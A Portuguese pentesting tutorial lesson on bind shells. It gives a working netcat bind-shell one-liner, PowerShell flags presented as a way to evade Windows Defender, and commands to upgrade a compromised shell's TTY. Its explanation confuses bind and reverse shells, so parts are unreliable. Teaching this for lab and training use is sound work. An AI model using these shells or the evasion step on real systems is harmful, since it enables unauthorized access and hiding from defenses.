 # Bind shell
Bind shell é um shell que se conecta ao sistema alvo, que está ouvindo em uma porta específica. Depois de descobrir a brecha no sistema alvo, podemos usar ferramentas como netcat, socat ou até mesmo python para criar um shell bind. Depois disso executamos o shell no sistema falho e o atacante se conecta a nós.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Para burlar antivirus como o windows defender ao escrever um código em powershell, podemos usar o comando `powershell -NoP -NonI -W Hidden -Exec Bypass -Command` para executar o código sem que o windows defender detecte.

## Ouvinte netcat

Precisamos de um ouvinte para receber a conexão do shell bind, seja por nc, socket ou outro. 
```shell
$ nc 10.10.10.1 4444
```
Esse comando é executado em algum lugar do alvo que permita RCE (Remote Code Execution), como um arquivo PHP, um formulário de upload, um SQL Injection, depois nos conectamos ao ouvinte na porta especificada nesse comando.

## Melhorando o TTY
O TTY padrão que obtemos ao conseguir o shell é limitado, comandos como `clear`, `Ctrl+C`, `Ctrl+Z`, `Ctrl+D`, acesso do histórico de comandos e outros podem não funcionar corretamente, podemos melhorar a interação com o shell. 

**Nota: O método a seguir funciona apenas em sistemas com python instalado.**

TTY é o terminal do sistema, quando usamos um shell bind, o TTY pode não estar configurado corretamente, para melhorar o TTY, podemos usar o comando `python3 -c 'import pty; pty.spawn("/bin/bash")'` para melhorar a interação com o shell.

Depois apertamos *Ctrl+Z* para suspender o processo, depois usamos o comando `stty raw -echo; fg` para melhorar a interação com o shell.

fg trás o processo suspenso de volta, e stty raw -echo configura o TTY para melhorar a interação com o shell.

Quando executamos o comando `stty raw -echo`, o shell pode ficar sem echo, para resolver isso, usamos o comando `reset` + enter para corrigir o TTY.

Quando abrirmos o shell, ele pode não ocupar toda a janela do terminal, para resolver isso, usamos o comando `echo $TERM` em uma outra aba do terminal (no nosso sistema) para saber o tipo de terminal, depois usamos `stty size` para saber o tamanho da do nosso terminal. 

Supondo uma saida de stty size
`67    318`

Você deve imaginar o objetivo de todos esses comandos no nosso terminal, obviamente ficariamos mais confortáveis com um terminal idêntico ao nosso, para isso podemos

alterar a variável do terminal invadido
```bash
$ export TERM=xterm-256color

$ stty rows 67 columns 318
```

[próxima aula](shell3_web.md)
